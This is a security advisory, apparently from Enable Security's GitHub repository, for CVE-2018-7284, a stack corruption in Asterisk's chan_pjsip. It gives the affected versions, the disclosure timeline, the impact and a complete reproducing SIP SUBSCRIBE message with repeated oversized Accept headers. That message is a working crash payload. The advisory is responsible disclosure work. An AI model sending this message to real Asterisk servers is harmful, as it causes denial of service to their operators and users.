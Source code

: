 # SUBSCRIBE message with a large Accept value causes stack corruption

- Authors: 
     - Alfred Farrugia <alfred@enablesecurity.com>
     - Sandro Gauci <sandro@enablesecurity.com>
- Latest vulnerable version: Asterisk 15.2.0 running `chan_pjsip`
- Tested vulnerable versions: 15.2.0, 13.19.0, 14.7.5, 13.11.2
- References: AST-2018-004, CVE-2018-7284
- Advisory URL: <https://github.com/EnableSecurity/advisories/tree/master/ES2018-01-asterisk-pjsip-subscribe-stack-corruption>
- Vendor Advisory: <http://downloads.asterisk.org/pub/security/AST-2018-004.html>
- Timeline:
    - Issue reported to vendor: 2018-01-30
    - Vendor patch made available to us: 2018-02-06
    - Vendor advisory published: 2018-02-21
    - Enable Security advisory: 2018-02-22

## Description

A large SUBSCRIBE message with multiple malformed `Accept` headers will crash Asterisk due to stack corruption.

## Impact

Abuse of this vulnerability leads to denial of service in Asterisk when `chan_pjsip` is in use. Brief analysis indicates that this is an exploitable vulnerability that may lead to remote code execution.

## How to reproduce the issue

The following SIP message was used to reproduce the issue:

```
SUBSCRIBE sip:3000@127.0.0.1:5060 SIP/2.0
To: <sip:3000@127.0.0.1:5060>
From: Test <sip:3000@127.0.0.1:5060>
Call-ID: 1627b84b-b57d-4256-a748-30d01d242199
CSeq: 2 SUBSCRIBE
Via: SIP/2.0/TCP 172.17.0.1:10394;branch=z9hG4bK1627b84b-b57d-4256-a748-30d01d242199
Contact: <sip:3000@172.17.0.1>
Accept: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Accept: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Accept: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(REPEAT ACCEPT FOR 50 TIMES)
Event: message-summary
Allow: Allow: SUBSCRIBE, NOTIFY, INVITE, ACK, CANCEL, BYE, REFER, INFO, OPTIONS, MESSAGE
Authorization: Digest username="3000",realm="asterisk",nonce="1517181436/80170188d05f4af45b8530366c8e7e5e",uri="sip:127.0.0.1:5060",response="a4a88b777731349899227dc3170efdcf",algorithm=md5
Content-Length: 0
```
